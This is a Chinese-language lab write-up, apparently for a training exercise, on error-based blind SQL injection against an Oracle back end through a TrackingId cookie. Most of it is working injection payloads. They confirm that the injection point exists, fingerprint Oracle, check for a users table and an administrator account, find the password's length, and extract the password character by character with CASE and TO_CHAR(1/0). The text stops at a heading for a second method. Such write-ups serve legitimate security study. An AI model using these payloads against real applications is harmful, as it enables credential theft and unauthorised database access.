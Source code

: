 ==首次卡在管道的逻辑理解上==

**本题是Oracle数据库**

> 直接错误（sql语句错误）时或者正确时都不会返回任何东西。
>
> 只有当输入语句本身错误（sql语法错误）（比如1/0）时才会报错。故可以利用此倒推
>
> 正确和错误都是200，但报错是500

在注入点cookie判断是否可用报错注入（即是否对语法错误敏感）:

- 方法一：

```SQL
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
```

- 方法二：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回错误
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回正确
```

然后运用`||`,并且确定是Oracle数据库：

```SQL
TrackingId=xyz'||(SELECT '' FROM dual)||' #正确
TrackingId=xyz'||(SELECT '')||' #错误
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||' #查一个不存在的表，返回错误，确定这个点能注
```

确定想要查的表是否存在和想要查的用户名是否存在：

```SQL
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
#有ROWNUM限制是因为，用||的前后select语句必须是返回的相同行

TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
#确定是否有administrator用户名
```

确定密码长度：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

确定密码：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### 方法二：利用`and`
